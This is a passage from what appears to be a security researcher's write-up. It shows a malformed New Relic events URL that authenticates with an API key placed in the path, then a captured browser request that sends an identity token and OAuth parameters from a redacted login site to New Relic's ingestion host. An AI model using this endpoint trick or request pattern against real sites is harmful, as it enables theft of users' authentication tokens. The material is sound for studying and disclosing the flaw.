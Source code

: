 At this point I felt like it was a deadend. But, in a moment of optimism I tried:
```
https://bam.eu01.nr-data.net/v1/accounts/1337/events%3fApi-Key=MY_API_KEY
```
**AND IT WORKED.** Actually...
```
https://bam.eu01.nr-data.net/v1/accounts/1337/eventsApi-Key=MY_API_KEY
```
works too. I have no idea why - it is one of the weirdest things I've ever seen in my 15+ years of hacking.

But, using this, I was able to authenticate into the `custom events` API and get my POST request body ingested by New Relic. 

The request sent by the browser after authentication into the app looks like this:
```http
POST /v1/accounts/1337/eventsApi-Key=MY_API_KEY HTTP/1.1
Host: bam.eu01.nr-data.net
Connection: keep-alive
Content-Length: 298
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
Content-Type: application/json
sec-ch-ua-mobile: ?0
Origin: https://auth.redacted.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Sec-Fetch-Storage-Access: none
Referer: https://auth.redacted.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9

{"idsToken":"273h8N3KpHbiRBV8ew7cp4CSDI4.*AAJTSQACMTAAAlNLABxPRjFqb3RYMkRPTDRXdkhwb0FNS2FVVVIrV3c9AAR0eXBlAANDVFMAAlMxAAIwMQ..*","responseType":"code","clientId":"clientIdFinancial","scope":"openid iid uci profile card.account","redirectUri":"https://acc-data.redacted.com/auth/callback"}
```
and the response from New Relic came back:
```
HTTP/1.1 200 
Connection: close
Content-Length: 63
content-type: text/json; charset=utf-8
nr-rate-limited: allowed
access-control-allow-methods: GET, POST, PUT, HEAD, OPTIONS
access-control-allow-credentials: true
access-control-allow-origin: https://auth.redacted.com
x-served-by: cache-ewr-kewr1740024-EWR
date: Thu, 02 Oct 2025 21:06:10 GMT

{"success":true, "uuid":"57aa1df8-0001-bf20-8b48-0199a6bf2d7c"}

```
